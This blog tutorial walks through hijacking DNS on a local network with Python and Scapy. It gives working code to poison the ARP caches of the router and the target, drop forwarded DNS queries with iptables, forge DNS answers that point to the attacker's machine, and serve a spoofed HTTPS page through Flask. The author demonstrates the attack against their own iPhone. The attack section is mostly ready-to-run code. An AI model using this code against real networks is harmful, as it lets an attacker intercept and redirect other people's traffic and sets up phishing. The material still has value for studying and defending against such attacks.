 ```yaml
---
title: "Performing DNS Hijacking to Redirect Users to a Fake Website"
date: 2019-08-22
toc: true
toc_label: "Table of Contents"
categories:
  - blog
tags:
  - Network Security
  - DNS Hijacking
  - ARP Spoofing
  - Scapy
---
```


# Introduction
In my previous post, we had a look at poisoning ARP caches which allowed us to intercept messages
being sent to and from the target. In this post, we utilize that to intercept all DNS requests of the
target and provide a spoofed reply pointing to a web server running on our machine.

# DNS
Everytime a user types in an URL into the browser or any web client, the client resolves or "translates" the URL into an IP address. It does this to identify where to send the corresponding HTTP request. To translate the URL into an IP address, the following steps take place:

1. The browser first queries the OS with the request asking if it knows the IP address,
2. the OS checks it's local cache and the HOSTS file which contains mappings between URLs and IP address,
3. if the OS does not find any mappings, it will query the local DNS resolver which is usually provided by your ISP,
4. the DNS resolver will also check if it has an answer. If it doesn't, it will recursivelly query
the nameservers till it receives a response from the nameserver responsible for the domain.  

Once the IP address is retreived, the client sends the HTTP request and displays the page returned.

# DNS Spoofing
Since we need the target's traffic to pass through our system, we need to poison both the router's and target's ARP cache. This can be done in the following manner.

```python
# Poison router's cache (Scapy will automatically fill in the ethernet frame with our MAC)
send(ARP(op=2, psrc=g_target_ip, pdst=g_router_ip, hwdst=router_mac), verbose=0)

# Poison target's cache
send(ARP(op=2, psrc=g_router_ip, pdst=g_target_ip, hwdst=target_mac), verbose=0)

# Sleep to prevent flooding
time.sleep(2)
```

Once we poison the ARP caches, the target's traffic passes through our system. Now we can control the traffic, i.e., we can decide on what to forward and what not to. By stopping all DNS queries from the target, we can then send a spoofed DNS response pointing to our system. This will cause the target to send an HTTP request to our machine. We can stop forwarding all DNS messages in the following manner.

```python
print("Enabling IP forwarding")
# Check to see if we are on linux
if (platform.system() == "Linux"):
  # Enable IP forwarding
  ipf = open('/proc/sys/net/ipv4/ip_forward', 'r+')
  ipf_read = ipf.read()
  if (ipf_read != '1\n'):
    ipf.write('1\n')
  ipf.close()

  # Disable DNS Query forwarding
  firewall = "iptables -A FORWARD -p UDP --dport 53 -j DROP"
  Popen([firewall], shell=True, stdout=PIPE)
```

Now, since all the DNS messages are dropped, we need to provide the target with a spoofed DNS response. Failing to do so can lead to DOS since the target will not be able to resolve the URL to any IP address. We can send a spoofed DNS answer in the following manner.

```python
if (pkt[IP].src == g_target_ip and
    pkt.haslayer(DNS) and
    pkt[DNS].qr == 0 and				# DNS Query
    pkt[DNS].opcode == 0 and		# DNS Standard Query
    pkt[DNS].ancount == 0				# Answer Count
    ):

  print("Sending spoofed DNS response")

  if (pkt.haslayer(IPv6)):
    ip_layer = IPv6(src=pkt[IPv6].dst, dst=pkt[IPv6].src)
  else:
    ip_layer = IP(src=pkt[IP].dst, dst=pkt[IP].src)

  # Create the spoofed DNS response (returning back our IP as the answer instead of the endpoint)
  dns_resp =  ip_layer/ \
        UDP(
          dport=pkt[UDP].sport,
          sport=53
          )/ \
        DNS(
          id=pkt[DNS].id,				# Same as query
          ancount=1,						# Number of answers
          qr=1,									# DNS Response
          ra=1,									# Recursion available
          qd=(pkt.getlayer(DNS)).qd,		# Query Data
          an=DNSRR(
            rrname=pkt[DNSQR].qname,	# Queried host name
            rdata=g_server_ip,				# IP address of queried host name
            ttl = 10
            )
          )

  # Send the spoofed DNS response
  print(dns_resp.show())
  send(dns_resp, verbose=0)
  print(f"Resolved DNS request for {pkt[DNS].qd.qname} by {g_server_ip}")
```

In the above code, *pkt* holds the DNS request intercepted by our machine. Using it, we send a DNS response saying that the URL maps to our IP address. Now since the target will start sending HTTP/HTTPS request to our machine, we need to respond to those with our webpage. A simple demonstration can be shown using Flask in the following manner.

```python
from flask import Flask

app = Flask(__name__)

@app.route('/')
def spoofed_page():
    return '<h1 align="center">You have been pwned!</h1>'

@app.route('/<path:dummy>')
def spoofed_dir(dummy):
  return '<h1 align="center">You have been pwned!</h1>'

if __name__ == '__main__':
  app.run(host='192.168.137.1', ssl_context='adhoc', port=443)
```
The host argument must be set to the IP address on which the webserver is being run on. Now any page accessed by the target will be return the html given above.

# Results
I am running the dns-hijacker and the web server on a Raspberry PI 3B+ with the target as my iPhone.

![dns-hijacker](../../assets/videos/dns-hijacker.gif)

Once the DNS hijacker and the web server are started, sending a request from my iPhone results in the following.

![pwned](../../assets/videos/pwned.gif)

We can see that a GET request to `victoria.dev` was successfully redirected to our webpage. yaaa. Note that the warning can be removed by supplying phony certificates, but that topic is for another post.

The full script is available on my github [page][page].

[page]: https://github.com/venkat-abhi/dns-redirector
